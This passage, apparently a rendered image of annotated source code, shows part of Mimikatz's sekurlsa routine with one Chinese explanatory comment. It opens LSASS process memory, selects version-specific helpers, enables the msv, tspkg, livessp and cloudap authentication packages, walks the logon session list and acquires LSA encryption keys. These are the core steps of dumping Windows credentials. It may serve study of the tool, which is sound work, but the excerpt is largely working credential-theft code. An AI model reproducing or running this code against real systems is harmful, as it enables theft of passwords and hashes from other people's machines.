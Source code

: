 ```c++
                }
                else
                {
                #if defined(_M_IX86)
                    if(IsWow64Process(GetCurrentProcess(), &amp;isError) &amp;&amp; isError)
                        PRINT_ERROR(MIMIKATZ L" " MIMIKATZ_ARCH L" cannot access x64 process\n");
                    else
                #endif
                    {   
                        // 设置 KUHL_M_SEKURLSA_OS_CONTEXT（osContext）结构中的三个值
                        cLsass.osContext.MajorVersion = MIMIKATZ_NT_MAJOR_VERSION;
                        cLsass.osContext.MinorVersion = MIMIKATZ_NT_MINOR_VERSION;
                        cLsass.osContext.BuildNumber  = MIMIKATZ_NT_BUILD_NUMBER;
                    }
                }

                if(!isError)
                {
                    lsassLocalHelper = 
                    #if defined(_M_ARM64)
                        &amp;lsassLocalHelpers[0]
                    #else
                        (cLsass.osContext.MajorVersion &lt; 6) ? &amp;lsassLocalHelpers[0] : &amp;lsassLocalHelpers[1]
                    #endif
                    ;

                    if(NT_SUCCESS(lsassLocalHelper-&gt;initLocalLib()))
                    {
                    #if !defined(_M_ARM64)
                        kuhl_m_sekurlsa_livessp_package.isValid = (cLsass.osContext.BuildNumber &gt;= KULL_M_WIN_MIN_BUILD_8);
                    #endif
                        kuhl_m_sekurlsa_tspkg_package.isValid = (cLsass.osContext.MajorVersion &gt;= 6) || (cLsass.osContext.MinorVersion &lt; 2);
                        kuhl_m_sekurlsa_cloudap_package.isValid = (cLsass.osContext.BuildNumber &gt;= KULL_M_WIN_BUILD_10_1909);
                        if(NT_SUCCESS(kull_m_process_getVeryBasicModuleInformations(cLsass.hLsassMem, kuhl_m_sekurlsa_findlibs, NULL)) &amp;&amp; kuhl_m_sekurlsa_msv_package.Module.isPresent)
                        {
                            kuhl_m_sekurlsa_dpapi_lsa_package.Module = kuhl_m_sekurlsa_msv_package.Module;
                            if(kuhl_m_sekurlsa_utils_search(&amp;cLsass, &amp;kuhl_m_sekurlsa_msv_package.Module))
                            {
                                status = lsassLocalHelper-&gt;AcquireKeys(&amp;cLsass, &amp;lsassPackages[0]-&gt;Module.Informations);
                                if(!NT_SUCCESS(status))
                                    PRINT_ERROR(L"Key import\n");
                            }
                            else PRINT_ERROR(L"Logon list\n");
                        }
                        else PRINT_ERROR(L"Modules informations\n");
                    }
                    else PRINT_ERROR(L"Local LSA library failed\n");
                }
            }
            else PRINT_ERROR(L"Memory opening\n");

            if(!NT_SUCCESS(status))
                CloseHandle(hData);
        }
        else PRINT_ERROR_AUTO(L"Handle on memory");
```